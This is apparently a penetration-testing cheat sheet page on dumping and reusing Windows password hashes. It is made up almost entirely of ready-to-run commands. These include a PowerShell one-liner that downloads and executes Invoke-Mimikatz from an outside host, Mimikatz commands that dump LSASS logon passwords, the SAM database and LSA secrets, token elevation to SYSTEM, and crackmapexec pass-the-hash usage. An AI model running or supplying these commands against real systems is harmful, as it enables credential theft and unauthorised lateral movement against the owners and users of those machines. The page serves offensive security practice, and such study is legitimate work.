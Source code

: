 # Password hash dump and reuse

{% embed url="https://juggernaut-sec.com/category/active-directory-hacking/" %}

{% hint style="info" %}
Can use [xfreerdp ](../#rdp)to PTH RDP
{% endhint %}

### Local logon password dump&#x20;

{% code overflow="wrap" %}
```powershell
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1


powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.132:8080/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords" "lsadump::sam" "exit"'
```
{% endcode %}

#### mimikatz.exe (need high integrity)

{% code overflow="wrap" %}
```
crackmapexec smb/mssql 1.1.1.1 -u Administrator -p 'Pwd' -M mimikatz -o COMMAND='privilege::debug'
-H nthash
```
{% endcode %}

{% code overflow="wrap" %}
```
token::elevate
#to elevate the security token from high integrity (administrator) to SYSTEM integrity (no need if mimikatz launch from SYSTEM shell)
```
{% endcode %}

dump from memory LSASS

<pre><code><strong>.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
</strong></code></pre>

dump from SAM

```
lsadump::sam
```

```
.\mimikatz.exe "lsadump::secrets" "exit"
```

